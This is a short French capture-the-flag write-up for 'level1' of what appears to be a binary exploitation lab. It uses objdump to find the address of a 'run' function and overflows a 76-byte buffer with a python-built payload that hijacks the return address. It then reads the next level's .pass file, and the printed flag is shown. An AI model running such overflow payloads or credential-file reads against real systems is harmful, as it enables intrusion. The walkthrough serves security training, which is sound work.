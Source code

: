 ## Level 1

On fait un `objdump -d  ~/level1`. On appercoit `main`, mais aussi `run`.
```
> objdump -d  ~/level1
[...]
08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
[...]
08048480 <main>:
 8048480:	55                   	push   %ebp
 8048481:	89 e5                	mov    %esp,%ebp
 8048483:	83 e4 f0             	and    $0xfffffff0,%esp
```

L'addresse de run est `0x08048444`. En `little-endian`, l'addresse est `\x44\x84\x04\x08`.

Dans le code `C`, on se rend compte qu'il ne peut y avoir que `76` octet alloués. Il y a donc un `SEGFAULT` à partir de `76` caractères.

On peut donc faire:
```
> python -c 'print "A"*76 + "\x44\x84\x04\x08"' > /tmp/hack1
> cat /tmp/hack1 - |  ./level1
[...]
Good... Wait what?
cat /home/user/level2/.pass
[...]
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
``` 

Dans notre fichier `hack1`, on a donc `76` caractères `A` + l'adresse de `run`.

Ensuite, on a envoyé notre fichier sur l'entrée standard de `level1` et avec le flag `-` de `cat`. On peut entrer la commande nous permettant d'obtenir le flag.
